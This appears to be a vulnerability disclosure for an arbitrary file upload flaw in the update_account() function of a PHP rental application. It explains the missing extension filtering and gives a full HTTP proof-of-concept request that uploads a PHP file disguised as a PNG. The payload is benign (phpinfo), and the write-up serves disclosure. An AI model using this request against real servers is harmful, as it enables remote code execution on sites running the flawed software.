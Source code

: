 #### There is an arbitrary file upload vulnerability in the update_account() function of the file rental/admin_class.php.

**Code analysis**

![](https://raw.githubusercontent.com/gaorenyusi/img/master/img/image-20240910223354078.png)

First upload as a temporary file, then use the function `move_uploaded_file` to move the temporary file to the `assets/uploads/` directory, similarly without filtering the file extension and content, the filename is a timestamp that can be brute-forced based on the time range.

**Vulnerability reproduction**

poc

```http
POST /ajax.php?action=update_account HTTP/1.1
Host: localhost:1110
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Content-Type: multipart/form-data; boundary=---------------------------303633564229447810934000106849
Content-Length: 712

-----------------------------303633564229447810934000106849
Content-Disposition: form-data; name="firstname"

test
-----------------------------303633564229447810934000106849
Content-Disposition: form-data; name="lastname"

111
-----------------------------303633564229447810934000106849
Content-Disposition: form-data; name="password"

test
-----------------------------303633564229447810934000106849
Content-Disposition: form-data; name="email"

test@qq.coma
-----------------------------303633564229447810934000106849
Content-Disposition: form-data; name="img"; filename="1.php" 
Content-Type: image/png  

<?php phpinfo();
-----------------------------303633564229447810934000106849--
```

![](https://raw.githubusercontent.com/gaorenyusi/img/master/img/image-20240910223554801.png)

As shown in the picture, successfully uploaded.

![](https://raw.githubusercontent.com/gaorenyusi/img/master/img/image-20240910223632404.png)

Access the file path to resolve.

![](https://raw.githubusercontent.com/gaorenyusi/img/master/img/image-20240910223705602.png)

